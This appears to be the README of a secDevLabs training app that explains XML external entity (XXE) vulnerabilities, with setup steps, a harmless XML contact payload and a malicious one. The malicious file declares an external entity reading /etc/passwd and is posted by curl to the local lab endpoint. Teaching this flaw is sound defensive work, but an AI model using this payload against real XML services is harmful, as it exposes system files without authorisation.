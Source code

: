 # XXE-

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
